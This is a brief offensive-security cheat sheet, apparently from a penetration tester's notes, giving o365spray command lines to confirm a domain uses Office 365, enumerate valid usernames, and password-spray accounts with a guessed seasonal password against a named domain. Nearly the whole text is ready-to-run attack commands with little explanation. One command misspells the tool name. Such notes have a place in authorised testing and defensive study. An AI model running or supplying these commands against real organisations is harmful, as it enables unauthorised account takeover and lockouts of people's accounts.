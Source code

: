 -- -
### Enum
Some enumeration for Office 365 Cloud solution.
```bash
# validate target domain is using O365
python3 o365spray.py --validate --domain <domain>
python3 o365spray.py --validate --domain msplaintext.xyz

# Enum Usernames
python3 o365spray.py --enum -U <userlst> --domain <domain>
python3 o365spray.py --enum -U users.txt --domain msplaintext.xyz  
```
### Password Spray
```bash
python3 0365spray.py --spray -U <userlst> -p '<passwd>' --count 1 --lockout 1 --domain <domain>
python3 o365spray.py --spray -U usersfound.txt -p 'March2022!' --count 1 --lockout 1 --domain msplaintext.xyz
```

^10833c
